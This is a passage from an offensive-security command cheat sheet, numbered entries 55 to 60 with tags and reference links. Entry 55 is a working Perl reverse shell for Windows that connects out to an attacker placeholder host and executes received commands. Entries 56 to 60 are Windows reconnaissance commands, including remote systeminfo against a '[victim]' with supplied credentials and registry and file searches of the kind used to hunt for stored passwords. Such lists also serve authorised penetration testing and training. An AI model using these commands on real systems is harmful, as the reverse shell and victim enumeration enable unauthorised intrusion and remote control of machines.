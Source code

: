 https://hashcat.net/wiki/
__________
### 55. perl windows reverse shell
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[me]:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
**- reverse shells,Windows,perl**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 56. system information
```
ver
```
**- enumeration,Windows,privilege escalation**
#### References:

https://technet.microsoft.com/en-us/library/bb491028.aspx
__________
### 57. remote system info
```
systeminfo /S [victim] /U [domain]/[user] /P [pass]
```
**- enumeration,Windows,privilege escalation**
#### References:

https://technet.microsoft.com/en-gb/library/bb491007.aspx
__________
### 58. list drives
```
fsutil fsinfo drives
```
**- Windows,forensics**
#### References:

https://technet.microsoft.com/en-us/library/cc753059(v=ws.11).aspx
__________
### 59. search for text in the reg
```
reg query HKLM /f [text]  /t REG SZ /s
```
**- enumeration,Windows,privilege escalation,forensics**
#### References:

http://www.fuzzysecurity.com/tutorials/16.html
https://technet.microsoft.com/en-us/library/cc742028(v=ws.11).aspx
__________
### 60. grep for text in files
```
findstr /si [text] '.txt|xml|xls'
```
**- enumeration,Windows,privilege escalation**
#### References:
